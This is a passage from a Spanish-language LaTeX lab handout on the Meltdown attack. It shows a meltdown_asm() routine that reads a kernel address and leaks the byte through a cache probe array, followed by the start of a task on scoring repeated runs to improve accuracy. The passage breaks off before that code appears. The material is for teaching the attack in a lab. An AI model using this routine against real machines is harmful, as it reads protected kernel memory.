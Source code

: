 \begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}

Por favor llame a la función \texttt{meltdown\_asm()} en vez de la función original  \texttt{meltdown()}. Describa sus observaciones. Incremente o decremente el número de loops y reporte sus resultados.




\section{Tarea 8: Haciendo el Ataque más Práctico}

Incluso con la optimización de la tarea anterior, es posible que aún no podamos
obtener el dato secreto: puede que por momentos nuestro ataque logrará obtener el dato correcto, pero a veces, nuestro ataque no lo hará y producirá un valor incorrecto.
Para mejorar la precisión, podemos usar una técnica estadística.
La idea es crear un arreglo de scores de un tamaño de 256, un elemento por cada posible valor secreto. Una vez hecho se correrá el ataque reiterada veces. Cada vez, si nuestro programa dea taque dice que el dato secreto es \texttt{k} (esto puede ser falso), agregamos 1 en \texttt{scores[k]}. Después de correr el ataque muchas veces, usamos el valor \texttt{k} que tenga el score más alto como nuestra estimación final en lugar de usar el obtenido en una sola corrida. El código de esta técnica es mostrado a continuación:


